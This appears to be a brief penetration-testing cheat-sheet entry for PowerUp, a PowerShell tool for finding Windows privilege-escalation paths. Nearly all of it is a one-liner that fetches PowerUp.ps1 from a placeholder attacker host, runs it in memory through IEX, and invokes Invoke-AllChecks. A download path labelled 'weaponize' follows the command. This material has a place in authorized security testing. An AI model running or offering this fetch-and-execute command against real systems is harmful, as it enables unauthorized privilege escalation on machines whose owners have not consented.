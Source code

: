 # PowerUp

#plateform/windows #target/local #cat/RECON #tag/powershell
## oneliner
```powershell
(new-object system.net.webclient).downloadstring('http://<local_ip>:<port|80>/<dl_powerup_path>PowerUp.ps1') | IEX; Invoke-AllChecks
```
= dl_powerup_path: windows/windows_weaponize/ps/empire/privesc/